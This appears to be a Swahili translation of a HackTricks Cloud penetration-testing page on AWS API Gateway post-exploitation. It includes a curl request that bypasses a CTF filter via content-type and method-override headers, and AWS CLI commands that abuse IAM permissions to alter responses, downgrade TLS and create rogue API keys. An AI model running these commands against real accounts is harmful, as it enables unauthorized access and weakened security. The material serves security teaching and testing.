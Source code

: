 # AWS - Uchimbaji wa API Gateway Baada ya Uvamizi

<details>

<summary><strong>Jifunze uchimbaji wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za uchimbaji kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## API Gateway

Kwa habari zaidi angalia:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Kufikia APIs zisizofichuliwa

Unaweza kuunda mwisho katika [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) na huduma `com.amazonaws.us-east-1.execute-api`, kufichua mwisho katika mtandao ambapo una ufikiaji (labda kupitia mashine ya EC2) na kutoa kikundi cha usalama kuruhusu mawasiliano yote.\
Kisha, kutoka kwenye mashine ya EC2 utaweza kufikia mwisho na hivyo kuita API ya lango ambayo haikufichuliwa hapo awali.

### Kupita kwenye Kipokezi cha Mwili wa Ombi

Mbinu hii iligunduliwa katika [**hii CTF writeup**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Kama ilivyoelezwa katika [**nyaraka za AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) katika sehemu ya `PassthroughBehavior`, kwa chaguo-msingi, thamani **`WHEN_NO_MATCH`** , wakati wa kuchunguza kichwa cha **Content-Type** cha ombi, itapitisha ombi kwa nyuma bila mabadiliko.

Kwa hivyo, katika CTF lango la API lilikuwa na templeti ya uingiliano ambayo ilikuwa **inazuia bendera isitoke** katika jibu wakati ombi lilipotumwa na `Content-Type: application/json`:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Walakini, kutuma ombi na **`Content-type: text/json`** ingezuia kichungi hicho.&#x20;

Hatimaye, kwa kuwa API Gateway iliruhusu tu `Get` na `Options`, ilikuwa inawezekana kutuma ombi la utafutaji wa dynamoDB bila kikomo kutuma ombi la POST na utafutaji kwenye mwili na kutumia kichwa `X-HTTP-Method-Override: GET`:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Matumizi ya Mipango ya Matumizi DoS

Katika sehemu ya **Uorodheshaji** unaweza kuona jinsi ya **kupata mpango wa matumizi** wa funguo. Ikiwa una funguo na ime **zuiliwa** kwa matumizi X **kwa mwezi**, unaweza **kuitumia tu na kusababisha DoS**.

**Funguo ya API** inahitaji tu kuwa **imejumuishwa** ndani ya **kichwa cha HTTP** kinachoitwa **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa za `apigateway:UpdateGatewayResponse` na `apigateway:CreateDeployment` anaweza **kurekebisha Jibu la Lango lililopo ili kujumuisha vichwa vya desturi au templeti za majibu zinazovuja habari nyeti au kutekeleza hati za malicious**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Athari Inayowezekana**: Kutokwa kwa habari nyeti, kutekeleza scripti za malicious, au kupata ufikivu usioruhusiwa kwenye rasilimali za API.

{% hint style="info" %}
Inahitajika kupimwa
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa za `apigateway:UpdateStage` na `apigateway:CreateDeployment` anaweza **kurekebisha hatua iliyopo ya API Gateway kwa kuelekeza trafiki kwenye hatua tofauti au kubadilisha mipangilio ya caching ili kupata ufikivu usioruhusiwa wa data iliyohifadhiwa**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Athari Inayowezekana**: Upatikanaji usiohalali wa data iliyohifadhiwa, kuvuruga au kuingilia trafiki ya API.

{% hint style="info" %}
Inahitaji majaribio
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa za `apigateway:PutMethodResponse` na `apigateway:CreateDeployment` anaweza **kurekebisha jibu la mbinu ya API ya Gateway ya REST iliyopo ili kujumuisha vichwa vya desturi au templeti za majibu ambazo hufichua habari nyeti au kutekeleza hati za malicious**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Athari Inayoweza Kutokea**: Kuvuja kwa taarifa nyeti, kutekeleza scripti zenye nia mbaya, au kupata ufikivu usioruhusiwa kwenye rasilimali za API.

{% hint style="info" %}
Inahitaji majaribio
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Mshambuliaji mwenye ruhusa za `apigateway:UpdateRestApi` na `apigateway:CreateDeployment` anaweza **kubadilisha mipangilio ya API Gateway REST API kwa kuzima kuingiza kumbukumbu au kubadilisha toleo la chini la TLS, hivyo kupunguza usalama wa API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Athari Inayowezekana**: Kupunguza usalama wa API, ikiruhusu ufikiaji usioruhusiwa au kufichua habari nyeti.

{% hint style="info" %}
Inahitaji majaribio
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Mshambuliaji mwenye ruhusa za `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, na `apigateway:CreateUsagePlanKey` anaweza **kuunda funguo mpya za API, kuziunganisha na mipango ya matumizi, na kuzitumia funguo hizi kwa ufikiaji usioruhusiwa wa API**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Athari Inayowezekana**: Upatikanaji usiohalali wa rasilimali za API, kukiuka udhibiti wa usalama.

{% hint style="info" %}
Inahitaji majaribio
{% endhint %}

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya HackTricks AWS)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa muundo wa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
